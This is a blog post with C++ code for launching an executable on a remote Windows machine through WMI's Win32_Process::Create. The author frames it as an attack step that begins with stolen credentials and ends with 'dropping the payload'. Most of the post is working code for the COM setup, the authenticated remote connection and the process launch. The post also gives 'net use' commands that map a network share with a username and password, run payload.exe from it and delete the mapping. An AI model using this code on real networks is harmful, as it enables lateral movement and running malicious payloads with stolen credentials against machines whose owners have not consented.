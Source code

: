 ```yaml
---
layout: post
title: Launching a payload on remote machine using WMI
date: 2017-12-29
category: CodeSamples
---
```


Here's a sample on how to launch a custom executable/payload on a remote machine using WMI. Obviously, valid credentials have to be stolen first before you can connect to the remote machine. The user who is trying to access the remote machine, should be a member of the Local administrators group on the remote machine. 

Here are the basic steps:
* The first step is to initialize the COM infrastructure.

    {% highlight cpp %}
    //-- Initialize COM.
	hres = CoInitializeEx(0, COINIT_MULTITHREADED);
	if (FAILED(hres))
	{
		cout << "\nFailed to initialize COM library. Error code = 0x"
			<< hex << hres << endl;
		return 1;
	}
	cout << "\nCOM initialised";
    
	//-- Set general COM security levels
	hres = CoInitializeSecurity(
		NULL,
		-1,                          // COM authentication
		NULL,                        // Authentication services
		NULL,                        // Reserved
		RPC_C_AUTHN_LEVEL_DEFAULT,   // Default authentication 
		RPC_C_IMP_LEVEL_IDENTIFY,    // Default Impersonation  
		NULL,                        // Authentication info
		EOAC_NONE,                   // Additional capabilities 
		NULL                         // Reserved
		);
    {% endhighlight %}

2. Next, create an instance of the Wbem locator and connect to the "root\cimv2" WMI namespace of the remote machine. Since we were connecting to a remote machine, the namespace should be fully qualified : "\\\\<server>\\root\\cimv2"



	//-- Obtain the WMI locator to pointer
	hres = CoCreateInstance(
		CLSID_WbemLocator,
		0,
		CLSCTX_INPROC_SERVER,
		IID_IWbemLocator, (LPVOID *)&pLoc);

	//-- Preparing the connection parameters
	wstrConnectPath.assign(L"\\\\");
	wstrConnectPath.append(wstrMachineName);
	wstrConnectPath.append(L"\\root\\cimv2");

	//-- Connect to the remote root\cimv2 namespace and obtain pointer pSvc to make IWbemServices calls.
	hres = pLoc->ConnectServer(
		_bstr_t(wstrConnectPath.c_str()),
		_bstr_t(wstrUserName.c_str()),		// User name
		_bstr_t(wstrPassword.c_str()),		// User password
		NULL,								// Locale             
		NULL,								// Security flags
		NULL,	//_bstr_t(wstrDomainAuth.c_str()),	// Authority        
		NULL,                              // Context object 
		&pSvc                              // IWbemServices proxy
		);

3. After you retrieve a pointer to an IWbemServices proxy, you must set the security on the proxy to access WMI on the remote machine through the proxy. This step is compulsary because IWbemServices proxy will only grants access to an out-of-process or remote object if the security properties are correct.

    // Ref: https://msdn.microsoft.com/en-us/library/aa393619(v=vs.85).aspx
	
	authIdent.PasswordLength = wcslen(wstrPassword.c_str());
	authIdent.Password = (USHORT*)wstrPassword.c_str();
	authIdent.UserLength = wcslen(wstrUserName.c_str());
	authIdent.User = (USHORT*)wstrUserName.c_str();
	authIdent.DomainLength = 0;   //<-- size of domain name
	authIdent.Domain = (USHORT*) NULL;   //<-- this should be domain name	
	authIdent.Flags = SEC_WINNT_AUTH_IDENTITY_UNICODE;
	userAcct = &authIdent;


	//-- Set security levels on the new WMI connection
	hres = CoSetProxyBlanket(
		pSvc,                           // Indicates the proxy to set
		RPC_C_AUTHN_DEFAULT,            // RPC_C_AUTHN_xxx
		RPC_C_AUTHZ_DEFAULT,            // RPC_C_AUTHZ_xxx
		COLE_DEFAULT_PRINCIPAL,         // Server principal name 
		RPC_C_AUTHN_LEVEL_PKT_PRIVACY,  // RPC_C_AUTHN_LEVEL_xxx 
		RPC_C_IMP_LEVEL_IMPERSONATE,    // RPC_C_IMP_LEVEL_xxx
		userAcct,                       // client identity  <--- ideally you have to create COAUTHIDENTITY  class 
		EOAC_NONE                       // proxy capabilities 
		);

4. If you have a pointer to the IWbemServices proxy - it means you have a successful connection to the WMI namespace on the remote machine. To drop the payload and launch the attack - you need to be able to create a process on the remote machine first. I've seperated this part into a function of its own, you pass in the IWbemServices proxy, and the process name and arguments as input. Refer to the function snippet below:

    /*-Refernce : https://msdn.microsoft.com/en-us/library/aa390421(v=vs.85).aspx -*/
    DWORD CreateProcessOnRemote(IWbemServices *pSvc, std::wstring wstrProcessName, std::wstring wstrProcessArgs)
    {
        HRESULT hres = 0;
        BSTR MethodName = SysAllocString(L"Create");
        BSTR ClassName = SysAllocString(L"Win32_Process");
        IWbemClassObject* pClass = NULL;
        IWbemClassObject* pInParamsDefinition = NULL;
        IWbemClassObject* pClassInstance = NULL;
        IWbemClassObject* pOutParams = NULL;
        std::wstring wstrCommandLine = wstrProcessName + L" " + wstrProcessArgs;
        VARIANT varCommand;
        VARIANT varReturnValue;

        hres = pSvc->GetObject(ClassName, 0, NULL, &pClass, NULL);
        //-- if above call is success, we are able to enumerate Win32_Process class in root\cimv2 on the remote machine
        if (FAILED(hres))
        {
            cout << "\n pSvc->GetObject failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        hres = pClass->GetMethod(MethodName, 0, &pInParamsDefinition, NULL);
        //-- if above call is success, we have a pointer to the Create method of Win32_Process class
        if (FAILED(hres))
        {
            cout << "\n pClass->GetMethod failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }


        hres = pInParamsDefinition->SpawnInstance(0, &pClassInstance);
        //-- Spawn instance of the Win32_Process::Create Parameters.
        if (FAILED(hres))
        {
            cout << "\n pInParamsDefinition->SpawnInstance failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        // Create the values for the in-parameters	
        varCommand.vt = VT_BSTR;
        varCommand.bstrVal = _bstr_t(wstrCommandLine.c_str());
        //-- you can also pass CurrentDirectory and ProcessStartupInformation (Win32_ProcessStartup)
        //-- See https://msdn.microsoft.com/en-us/library/aa389388(v=vs.85).aspx


        //-- Store the value for the in-parameters
        hres = pClassInstance->Put(L"CommandLine", 0, &varCommand, 0);
        if (FAILED(hres))
        {
            cout << "\n   pClassInstance->Put failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        cout << "\nThe command is:" << wstrCommandLine.c_str() << endl;

        //-- Execute Method	
        hres = pSvc->ExecMethod(ClassName, MethodName, 0, NULL, pClassInstance, &pOutParams, NULL);
        //-- if this call is successfull, then we have executed the method on the remote machine
        if (FAILED(hres))
        {
            cout << "\n  pSvc->ExecMethod failed."
                << " Error code = 0x"
                << hex << hres << endl;
            goto cleanup;
        }

        hres = pOutParams->Get(_bstr_t(L"ReturnValue"), 0, &varReturnValue, NULL, 0);
        if (FAILED(hres))
        {
            cout << "\n   pOutParams->Get failed."
                << " Error code = 0x"
                << hex << hres << endl;
        }
        cout << "\n Process return value:" << varReturnValue.intVal; 

    cleanup:
        VariantClear(&varCommand);
        SysFreeString(ClassName);
        SysFreeString(MethodName);

        if (pClass != NULL)
        {
            pClass->Release();
        }

        if (pClassInstance != NULL)
        {
            pClassInstance->Release();
        }

        if (pInParamsDefinition != NULL)
        {
            pInParamsDefinition->Release();
        }

        if (pOutParams != NULL)
        {
            pOutParams->Release();
        }

        return hres;
    }

5. Now all you need is the actual command to launch the payload. The approach I've used in my sample is to map a network share, and then launch the payload from that share. This involves running the following commands in sequence:

    net use \\<servername>\<sharename> /user:<username> <password>
    \\<servername>\<sharename>\<payload.exe> <switches>
    net use \\<servername>\<sharename> /delete

6. Once the process is launched, you decide what the payload must do. This code simply cleans up and exits. 


For full source, refer: https://github.com/VimalShekar/Cpp/tree/master/src/WmiRemoteProcessLaunch
